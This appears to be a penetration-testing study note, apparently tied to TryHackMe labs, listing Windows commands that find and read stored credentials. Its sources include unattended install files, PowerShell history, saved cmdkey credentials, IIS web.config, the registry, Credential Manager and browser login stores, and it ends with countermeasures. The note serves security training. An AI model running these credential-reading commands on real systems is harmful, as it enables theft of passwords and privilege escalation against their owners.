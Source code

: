 # Windows Credential Hunting

Gathering credentials is one of the most effective ways to escalate privileges on Windows systems. This document covers common locations and methods to find stored credentials on Windows machines.

## Unattended Windows Installations

When deploying Windows across multiple machines, administrators often use unattended installation files which may contain credentials. Check these locations:

```powershell
# Common locations for unattended installation files
Get-ChildItem C:\Unattend.xml -ErrorAction SilentlyContinue
Get-ChildItem C:\Windows\Panther\Unattend.xml -ErrorAction SilentlyContinue
Get-ChildItem C:\Windows\Panther\Unattend\Unattend.xml -ErrorAction SilentlyContinue
Get-ChildItem C:\Windows\system32\sysprep.inf -ErrorAction SilentlyContinue
Get-ChildItem C:\Windows\system32\sysprep\sysprep.xml -ErrorAction SilentlyContinue
```

Look for credential sections in these files:

```xml
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

## PowerShell History

PowerShell saves command history, which might contain credentials used in commands:

```cmd
# From CMD:
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

# From PowerShell:
Get-Content (Get-PSReadlineOption).HistorySavePath
# Or
Get-Content "$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
```

## Saved Windows Credentials

Windows allows saving credentials for later use, which can be listed and used:

```powershell
# List saved credentials
cmdkey /list

# Use saved credentials to run commands as another user
runas /savecred /user:DOMAIN\username cmd.exe
```

## IIS Configuration Files

Internet Information Services (IIS) configuration files often contain database connection strings with credentials:

```powershell
# Common locations for web.config files
Get-ChildItem C:\inetpub\wwwroot\web.config -ErrorAction SilentlyContinue
Get-ChildItem C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config -ErrorAction SilentlyContinue

# Search for connection strings in these files
findstr "connectionString" C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
findstr "connectionString" C:\inetpub\wwwroot\web.config
```

## Credentials in Software Configurations

### PuTTY

PuTTY client might store proxy credentials:

```powershell
# Search for stored proxy credentials
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### WinSCP

WinSCP may save session information with obfuscated passwords:

```powershell
# Check for WinSCP saved sessions
reg query HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions /s
```

### Remote Desktop Credentials

Saved RDP connections may contain credentials:

```powershell
# Check for saved RDP credentials
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s
```

## Credentials in Registry

Windows may store credentials in the registry:

```powershell
# Search for passwords in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Credentials Manager

Windows Credential Manager stores credentials for websites, applications, and networks:

```powershell
# PowerShell (requires admin rights)
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword(); $_ }

# Using vaultcmd (built-in)
vaultcmd /listcreds:"Windows Credentials" /all
vaultcmd /listcreds:"Web Credentials" /all
```

## Browser Stored Credentials

Browsers often store login credentials that can be extracted:

```powershell
# Chrome profiles are located at:
# "%LocalAppData%\Google\Chrome\User Data\Default\Login Data"

# Edge profiles are located at:
# "%LocalAppData%\Microsoft\Edge\User Data\Default\Login Data"

# Firefox profiles are located at:
# "%AppData%\Mozilla\Firefox\Profiles\<profile>\logins.json"
```

Tools like LaZagne can automate the extraction of browser credentials.

## Configuration Files

Many applications store credentials in configuration files:

```powershell
# Search for common config files
Get-ChildItem -Path C:\ -Include *.xml,*.ini,*.txt,*.config,*.conf,*.cfg,*.inc -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password|credentials|secret" | Select Path,Line
```

## Real-World Examples

### Example 1: PowerShell History

A system administrator ran a command that included credentials:

```powershell
$password = ConvertTo-SecureString "ZuperCkretPa5z" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("julia.jones", $password)
Invoke-Command -ComputerName FS01 -Credential $cred -ScriptBlock { Get-ChildItem C:\Confidential }
```

### Example 2: IIS Web.config

A web.config file with database credentials:

```xml
<connectionStrings>
    <add name="MyDatabase" connectionString="Data Source=SQLServer;Initial Catalog=MyDatabase;User ID=db_admin;Password=098n0x35skjD3" providerName="System.Data.SqlClient" />
</connectionStrings>
```

### Example 3: Using Saved Credentials

Using `runas` with saved credentials to run commands as another user:

```cmd
# List saved credentials
cmdkey /list

# Use saved credentials to run cmd as a different user
runas /savecred /user:mike.katz cmd.exe

# Navigate to the desktop and read a flag
type C:\Users\mike.katz\Desktop\flag.txt
# Output: THM{WHAT_IS_MY_PASSWORD}
```

### Example 4: PuTTY Saved Session

Extracting a saved password from PuTTY:

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
# Output reveals proxy credentials for user thom.smith with password CoolPass2021
```

## Automated Credential Hunting Tools

- **LaZagne**: Retrieves passwords stored on a local computer
- **Mimikatz**: Extracts plaintext passwords, hashes, and tickets from memory
- **SessionGopher**: Extracts saved session information for remote access tools
- **SharpWeb**: .NET tool for grabbing credentials from web browsers

## Countermeasures

To protect against credential hunting:
- Avoid storing credentials in plain text
- Use Windows Credential Guard
- Implement strong password policies
- Regularly audit stored credentials
- Avoid saving credentials when not necessary
- Use more secure authentication methods like Windows Hello or smart cards 